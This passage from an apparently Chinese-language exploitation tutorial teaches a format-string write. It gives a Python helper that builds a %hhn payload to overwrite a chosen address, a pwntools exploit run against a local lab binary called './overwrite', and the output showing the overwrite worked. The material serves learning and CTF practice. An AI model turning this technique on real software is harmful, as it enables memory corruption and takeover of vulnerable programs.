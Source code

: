 ```python
            payload += p64(addr + i)
    prev = len(payload)
    for i in range(4):
        payload += fmt(prev, (target >> i * 8) & 0xff, offset + i)
        prev = (target >> i * 8) & 0xff
    return payload
payload = fmt_str(6,4,0x0804A028,0x12345678)
```

其中每个参数的含义基本如下

- offset表示要覆盖的地址最初的偏移
- size表示机器字长
- addr表示将要覆盖的地址。
- target表示我们要覆盖为的目的变量值。

相应的exploit如下

```python
def forb():
    sh = process('./overwrite')
    payload = fmt_str(6, 4, 0x0804A028, 0x12345678)
    print payload
    sh.sendline(payload)
    print sh.recv()
    sh.interactive()
```

结果如下

```python
➜  overwrite git:(master) ✗ python exploit.py
[+] Starting local process './overwrite': pid 78547
(\xa0\x0)\xa0\x0*\xa0\x0+\xa0\x0%104c%6$hhn%222c%7$hhn%222c%8$hhn%222c%9$hhn
[*] Process './overwrite' stopped with exit code 0 (pid 78547)
0xfff6f9bc
(\xa0\x0)\xa0\x0*\xa0\x0+\xa0\x0                                                                                                       X                                                                                                                                                                                                                             �                                                                                                                                                                                                                             \xbb                                                                                                                                                                                                                             ~modified b for a big number!
```

> 当然，其实这里我们也可以利用%n分别对每个地址进行写入，也可以得到对应的答案，但是由于我们写入的变量都只会影响由其开始的四个字节，所以最后一个变量写完之后，我们可能会修改之后的三个字节，如果这三个字节比较重要的话，程序就有可能因此崩溃。而采用%hn则不会有这样的问题，因为这样只会修改相应地址的一个字节。